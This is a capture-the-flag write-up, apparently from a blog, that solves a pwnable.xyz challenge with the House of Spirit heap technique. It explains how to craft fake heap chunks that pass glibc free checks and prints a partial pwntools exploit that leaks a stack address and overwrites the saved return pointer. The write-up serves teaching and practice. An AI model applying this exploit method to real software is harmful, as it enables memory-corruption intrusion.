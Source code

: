 [3] [https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)
  
Other classic and good resources include     
[4] [Malloc Maleficarum](https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt)  

[5] [Malloc Des-Maleficarum](http://phrack.org/issues/66/10.html)  


The technique we are going to use falls under the  **House of Spirit** introduced in the original **Malloc Maleficarum**. 

Quote from [https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit.html](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit.html)

>The attacker creates a 'fake chunk', which can reside anywhere in the memory (heap, stack, etc.) and overwrites the pointer to point to it. The chunk has to be crafted in such a manner so as to pass all the security tests. This is not difficult and only involves setting the size and next chunk's size.

As you might have guessed we wil try to construct a fake heap chunk to bypass all `free` security checks.

First we need to find a writable memory are to create the chunk. Running `vmmap` shows we have write permission from `0x601000` to `0x602000`. So let's set `fake_chunk = 0x601050`.

In the last version of our exploit code we used the line `p.sendline(p64(win))` to overwrite the saved return pointer. Following the same logic as before we will modify this line to `p.sendline(p64(win) + p64(fake_chunk + 0x8))` . Let me explain. When this line is executed we overwrite the return pointer with `win`'s address and the next 8 bytes with the address of **fake_chunk + 0x8**. We will then choose option **3** to overwite the address in **rsp+0x10** with the address of **fake_chunk + 0x8**.

Up next we choose **1** to write at **fake_chunk + 0x8** the size of the chunk. Recall the structure of an allocated chunk. I chose the size of the original chunk so I left it to 0x51 which is actually 0x50 (80) bytes and the **P** flag set.

**Important** : Since free will also check the size of the next chunk we will have to create another fake chunk. That next chunk will be 0x50 bytes away from the first.

Final exploit.

```python
from pwn import *
from time import sleep
context.terminal = ['tmux', 'splitw', '-h']

e = ELF("./challenge")
#p = process("./challenge")
p = remote("svc.pwnable.xyz",30005)
p.sendlineafter("> ", "2")
leak_addr = p.recvuntil("\n").replace("\n", "")
leak_addr = int(leak_addr, 16)
print("[*] Starting Exploit...")
sleep(1)
print("[*] Stack leak : " + hex(leak_addr))
sleep(1)
saved_rip = hex(leak_addr + 0x58)
print("[*] Saved $rip is at " + hex(leak_addr) + " + 0x58 = " + saved_rip)
sleep(1)

p.sendlineafter("> ", "1")
print("[*] Writing 8 bytes of junk and the saved $rip address in the heap...")
sleep(1)
junk_and_gold = "A" * 8 + p64(int(saved_rip,16))
p.sendline(junk_and_gold)

print("[*] Overwriting saved heap chunk address with the address of saved $rip...")
p.sendlineafter("> ", "3")
sleep(1)
```
